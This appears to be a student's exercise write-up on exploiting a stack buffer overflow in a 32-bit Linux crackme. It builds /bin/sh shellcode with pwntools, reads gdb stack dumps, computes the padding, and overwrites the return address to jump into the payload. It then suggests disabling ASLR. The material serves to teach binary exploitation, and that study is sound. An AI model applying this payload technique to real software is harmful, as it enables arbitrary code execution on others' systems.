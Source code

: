 
```
from pwn import *
```
```
#...
```
```
context.update(arch=’i386’, os=’linux’)
shellcode = shellcraft.sh()
payload = asm(shellcode)
```

we want to override the return address of the stack.
If we go to `0x56556218 <func+95>    ret` we see that it jumps to the address `esp 0xffffcf5c —▸ 0x56556254 (main+59)` on the stack. We want this address to point to another address on the stack (controlled by us), instead of pointing to the address 0x56556254.
The first address that we control is `0xffffcecc` (see above).
From above we can see
```
0xffffcf40:	0x41414141	0x41414141	0x41414141	0x0000002a <--- 0x2a inserted in the place required!
0xffffcf50:	0x56559000	0x56559000	0xffffcf78	0x56556254 <--- this is the return address that we need to overwrite
```
So we need to add 4*4 more bytes of padding and then the return address.
We start by adding 16 bytes of "B" and then the return address `0xffffcecc` and see if it will try to jump to our "A"s. We want this:
```
0xffffcf40:	0x41414141	0x41414141	0x41414141	0x42424242 <--- 0x2a inserted in the place required!
0xffffcf50:	0x42424242	0x42424242	0x42424242	0xffffcecc <--- this is the return address pointing to the start of our payload, from which we will take the instructions to execute (shellcode)
```
After
padding1 = b"A" * 128
padding2 = b"B" * 16
ret_address = p32(0xffffcecc)

Program received signal SIGILL, Illegal instruction.
Just as planned.
Now we substitute the padding1 with the shellcode that we want to execute. N.B. We must make sure that the length of the payload remains the same, so we need to insert shellcode+b"A"*(128-len(shellcode))

See crackme1_shellcode.py
In gdb it tries to execute /bin/dash, while from the shell it always give segfault!
Maybe this could be caused by the environmental variables that moves the stack addresses?
We try to see the address without env in gdb using unset env and we get that we need to place the return address at `0xffffdc5c`, pointing to  `0xffffdbcc`

Just disable ASLR!

### Exercise 3
